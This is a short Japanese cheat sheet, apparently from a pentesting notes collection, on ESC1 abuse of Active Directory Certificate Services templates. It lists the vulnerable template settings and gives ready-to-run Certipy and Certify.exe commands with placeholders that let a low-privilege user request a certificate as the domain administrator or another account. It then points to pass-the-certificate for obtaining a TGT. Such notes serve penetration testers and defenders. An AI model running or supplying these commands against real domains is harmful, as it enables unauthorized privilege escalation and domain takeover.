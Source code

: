 # ESC1

ESC1 脆弱性のある証明書テンプレートを使用すると、権限の低いユーザーが、ユーザーが指定したDomain Objectに代わって証明書を登録および要求できるようになる。登録権限を持つすべてのユーザーが、ドメイン管理者などの権限のあるアカウントの証明書を要求できることになる。

## 前提条件 – ESC1 攻撃

ESC1攻撃を行うには、次の要件を満たす必要がある

- Client Authentication : `True`
- Enable : `True`
- Enrollee Supplies Subject : `True`
- Requires Manager Approval : `False`
- Enrollement Rights
  - `Domain Users`
  - `Authenticated Users`

`BloodHound` または `Certify`, `Certipy` のfindコマンドで構成を確認できる

## 証明書テンプレートを悪用して管理者に偽造

### Linux

ユーザーアカウントを指定

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p <PASSWORD> -dc-ip <DC_IP> -target <DC_DOMAIN> -ca <CA_NAME> -template <VULN_TEMPLATE> -upn administrator@<DOMAIN>
```

コンピューターアカウントを指定

```
certipy-ad req -u <USERNAME>@<DOMAIN> -p <PASSWORD> -dc-ip <DC_IP> -target <DC_DOMAIN> -ca <CA_NAME> -template <VULN_TEMPLATE> -dns <DNS_DOMAIN>
```

### Windows

```
Certify.exe request /ca:<DOMAIN>\<CA_NAME> /template:<VULN_TEMPLATE> /altname:administrator
```

証明書を取得すると[Pass-the-Certificate攻撃]()でTGTを取得し、認証することができる
